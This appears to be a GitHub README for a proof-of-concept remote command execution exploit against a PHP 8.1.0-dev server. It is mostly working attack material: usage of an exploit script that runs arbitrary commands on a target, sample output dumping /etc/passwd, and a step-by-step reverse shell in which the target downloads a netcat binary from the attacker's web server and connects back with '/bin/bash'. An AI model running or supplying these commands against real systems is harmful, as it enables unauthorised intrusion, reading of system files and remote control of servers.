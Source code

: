 # PHP-8.1.0-dev-poc
Remote Command Execution
## Usage
```bash
$ python2 cmd.py
Usage: cmd.py http://example.com whoami

python2 cmd.py http://192.168.0.22 'cat /etc/passwd'
system("cat /etc/passwd") was sent successfully, response:
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologin[snip]opscode-pgsql:x:996:996::/var/opt/opscode/postgresql:/bin/shstring(60) "opscode-pgsql:x:996:996::/var/opt/opscode/postgresql:/bin/sh
```
## Reverse Shell 
In order to get a reverse shell you will need a netcat binary that allows the -e option. 
Copy /usr/bin/nc to the current directory and start up a web server: 
```bash
$ cp -r /usr/bin/nc .
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

python2 cmd.py http://192.168.0.22 'wget http://192.168.0.2/nc -O /tmp/nc; chmod +x /tmp/nc; ls /tmp/nc'
system("wget http://192.168.0.2/nc -O /tmp/nc; chmod +x /tmp/nc; ls /tmp/nc") was sent successfully, response:
/tmp/nc
string(7) "/tmp/nc
```
# The Web Server: 
```bash
192.168.0.22 - - [21/May/2021 07:42:07] "GET /nc HTTP/1.1" 200
```
# Execution 
```bash
python2 cmd.py http://192.168.0.22 '/tmp/nc -e /bin/bash 192.168.0.2 1000'

nc -lvp 1000
listening on [any] 1000 ...
connect to [192.168.0.2] from localhost [192.168.0.22] 
whoami
www-data```
